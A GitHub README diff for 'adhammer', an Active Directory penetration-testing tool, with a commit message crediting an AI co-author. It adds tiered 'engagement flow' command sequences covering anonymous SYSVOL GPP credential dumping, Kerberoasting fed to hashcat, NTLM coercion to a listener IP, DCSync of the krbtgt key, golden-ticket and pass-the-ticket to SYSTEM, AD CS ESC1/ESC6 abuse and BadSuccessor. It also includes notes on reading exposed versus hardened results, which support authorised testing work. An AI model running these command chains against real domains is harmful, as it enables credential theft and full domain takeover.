

Before and after one commit to icedracon/adhammer, a Markdown page: README.md, the part around one of its changes. Shown at 83% size. Drawn GitHub-style; folded sections open; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
docs: README 1.5.0 — attack-surface-by-credential-tier + engagement flows
Adds a "Power-user subcommands" block that now lists the full 1.5.0
surface (the new `run [--web] [--deep]` verb, the new `enum web /
nullbind / rpc-null / shares / host / sysvol` verbs, `attack coerce
--scan-all`, and the hashglass annotation on `attack roast`).

New "Attack surface — by credential requirement" table with 4 honest
tiers:
- Tier 0 · no creds  — the 1.5.0 black-box first-touch surface
- Tier 1 · low-priv  — any domain user (roast + hashglass, coerce
                        scan-all, session hunting, SYSVOL walk)
- Tier 2 · admin     — DCSync, secretsdump, exec, delegation, ADCS
                        enrollment, LAPS/gMSA, BadSuccessor
- Tier 3 · crypto    — golden/silver/diamond, PtH, UnPAC, DCShadow

New "Engagement flow examples" with real command sequences per tier —
including the new first-touch pattern (`run --domain X --range Y
--dns-server Z --web --deep`), authenticated SYSVOL walk, hashglass
annotation flow (`> hashes.txt 2> hashglass_annotations.txt`), and
coerce --scan-all which-fired matrix. Every example uses `corp.local`
+ `10.0.0.x` placeholders per the standard AD documentation convention,
not real lab identifiers.

New "Reading the output — exposed vs refused = both are findings"
section makes the discrimination explicit: `[ANON EXPOSED]` = the
actionable finding, and a refused SMB session / BIND_NAK / access-denied
= a hardened-posture finding reported symmetrically (not an error).
Same pattern for `attack coerce --scan-all` — every vector's outcome
recorded, accepted or the exact wire refusal.

Leak-clean per hook + manual grep. Full local gate re-green after edit.

Co-Authored-By: Claude Opus 4.7 <noreply@anthropic.com>

````diff
--- a/README.md
+++ b/README.md
@@ -482,23 +500,66 @@ attack {roast, spray, abuse, coerce, rbcd, constrained, unconstrained, dcsync, e
 <details>
-<summary><b>💡 Example commands</b></summary>
+<summary><b>💡 Engagement flow examples (real command sequences)</b></summary>
 <br/>
 
+**First-touch, zero credentials (new in 1.5.0):**
+
 ```sh
-# Audit a domain (low-priv creds are enough), export a BloodHound bundle:
-adhammer scan --url ldaps://dc.corp.local:636 --user 'CORP\svc' --password ... --insecure --bloodhound out.zip
+# Discover DCs by DNS + fingerprint web surface + anon SMB posture per DC, in one shot:
+adhammer run --domain corp.local --range 10.0.0.0/24 --dns-server 10.0.0.1 --web --deep
+
+# Standalone: unified anon posture on one host (enum4linux-ng shape):
+adhammer enum host --anon --host 10.0.0.10
+
+# Anon SYSVOL walk for GPP cpassword — MS14-025 instant creds from zero creds:
+adhammer enum sysvol --anon --host 10.0.0.10 --dump gpp_creds.txt
+
+# ADCS ESC8 relay-surface fingerprint (checks /certsrv, RD Web, ADFS, OWA/EWS, SCCM):
+adhammer enum web --host 10.0.0.10
+
+# Kerberos user enum via pre-auth-less AS-REQ (no LDAP creds needed):
+adhammer enum krb-users --host dc.corp.local --realm CORP.LOCAL --users users.txt
+```
+
+**Low-priv domain user (tier 1):**
+
+```sh
+# Audit a domain, export a BloodHound bundle:
+adhammer scan --url ldaps://dc.corp.local:636 --user 'CORP\svc' --password @file:pw --insecure \
+              --bloodhound out.zip
 
 # ADIDNS + AD CS recon:
-adhammer enum dns  --url ldaps://dc:636 --user 'CORP\svc' --password ... --insecure
-adhammer enum adcs --url ldaps://dc:636 --user 'CORP\svc' --password ... --insecure
+adhammer enum dns  --url ldaps://dc:636 --user 'CORP\svc' --password @file:pw --insecure
+adhammer enum adcs --url ldaps://dc:636 --user 'CORP\svc' --password @file:pw --insecure
 
+# Session hunting from 3 angles (SRVSVC / WKSSVC / HKU registry):
+adhammer enum sessions --host dc --domain CORP --user svc --password env:PW
+adhammer enum wkssvc   --host dc --domain CORP --user svc --password env:PW
+adhammer enum hku      --host dc --domain CORP --user svc --password env:PW
+
+# Authenticated SYSVOL walk (any domain user can read SYSVOL):
+adhammer enum sysvol --host dc --domain CORP --user svc --password env:PW --dump gpp_creds.txt
+
+# Kerberoast + AS-REP roast; every emitted hash carries [hashglass] -m <mode> on stderr:
+adhammer attack roast --url ldaps://dc:636 --user 'CORP\svc' --password env:PW --kdc dc \
+              > hashes.txt 2> hashglass_annotations.txt
+hashcat -m 13100 hashes.txt wordlist.txt   # mode straight from the annotation
+
+# Coercion — try every vector over one login, print a which-fired matrix:
+adhammer attack coerce --scan-all --host dc.corp.local --domain CORP --user svc \
+              --password env:PW --listener 10.99.99.99
+```
+
+**Admin on target (tier 2) + crypto material (tier 3):**
+
+```sh
 # DCSync the krbtgt key, forge a golden ticket, pass-the-ticket to SYSTEM:
-adhammer attack dcsync --host dc --domain CORP --user Administrator --password ... --target krbtgt
+adhammer attack dcsync --host dc --domain CORP --user Administrator --password env:PW --target krbtgt
 adhammer attack pth    --host dc --realm CORP.LOCAL --krbtgt-aes256 <64-hex> --domain-sid S-1-5-21-... \
                        --spn cifs/dc.corp.local --command whoami
 
 # AD CS ESC1 / ESC3 / ESC6 / ESC15 enrollment via MS-ICPR:
 adhammer attack icpr-esc1 --ca CORP-CA --template User --target-upn administrator@corp.local \
-                        --host dc --domain CORP --user 'CORP\svc' --password ... \
+                        --host dc --domain CORP --user 'CORP\svc' --password env:PW \
                         --esc esc6 --san-upn administrator@corp.local
 
 # Server 2025 dMSA succession (BadSuccessor):
@@ -506,6 +567,26 @@ adhammer attack badsuccessor --dmsa-name pwn --target <victim>
 ```
 
 </details>
+
+### Reading the output — exposed vs refused = both are findings
+
+Every no-cred `enum` verb reports the DC's posture symmetrically:
+
+- **exposed:** `[ANON EXPOSED]` marker + the actual enumerated data.
+  Actionable — the DC permits anonymous access to a surface that should
+  be restricted (`RestrictAnonymous=1`, `RestrictNullSessAccess=1`,
+  disable `SYSVOL` anon read).
+- **refused:** the verb reports the exact NTSTATUS / RPC fault
+  (`0xc000006d` null session refused, `0xc0000022` access denied,
+  `BIND_NAK reason=8`, etc.) as a **hardened-posture finding**, not an
+  error. The refused pattern is diagnostic — e.g. Server 2025 DC01
+  blocks anon SAMR (`0xc0000022`) but exposes srvsvc/wkssvc/lsarpc =
+  selective hardening, worth noting in the report.
+
+Same shape for `attack coerce --scan-all`: every vector's outcome is
+recorded — accepted (fired) or the exact wire refusal (RPC timeout /
+`STATUS_OBJECT_NAME_NOT_FOUND` / BIND context reject / BIND_NAK) —
+so the operator sees exactly what's hardened and what isn't.
 
 <br/>
 
````
Also changed, not shown: other parts of README.md (+24 -6 lines).
